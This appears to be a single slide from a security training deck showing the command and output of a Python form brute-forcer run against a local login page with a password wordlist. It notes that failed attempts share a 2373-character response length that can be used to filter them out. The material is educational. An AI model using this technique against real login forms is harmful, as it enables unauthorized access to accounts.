

Basic form brute forcer – output
~/password_cracking$ python bruteforcing-forms.py http://127.0.0.1/check_login.php pass.txt 'username=admin&password=FUZZ'
code: 302 Code after redirection:200 Contents: 2373  Passowrd: userman
code: 302 Code after redirection:200 Contents: 2373  Passowrd: manager
code: 302 Code after redirection:200 Contents: 2373  Passowrd: powerful
code: 302 Code after redirection:200 Contents: 2373  Passowrd: test
code: 302 Code after redirection:200 Contents: 2373  Passowrd: dmin
code: 302 Code after redirection:200 Contents: 2373  Passowrd: asdmini=
code: 302 Code after redirection:200 Contents: 2373  Passowrd: userman
code: 302 Code after redirection:200 Contents: 2373  Passowrd: manager
code: 302 Code after redirection:200 Contents: 2373  Passowrd: powerful
code: 302 Code after redirection:200 Contents: 2373  Passowrd: test
code: 302 Code after redirection:200 Contents: 2373  Passowrd: dmin
code: 302 Code after redirection:200 Contents: 2373  Passowrd: manager
… … … … … … … … … … … … … … … … … … … … … … … … … …
… … … … … … … … … … … … … … … … … … … … … … … … … …
Status code cannot help us to find if some password works

However, all the failed attempts have same number of chars i.e. 2373

We can use it to filter out the failed attempts
27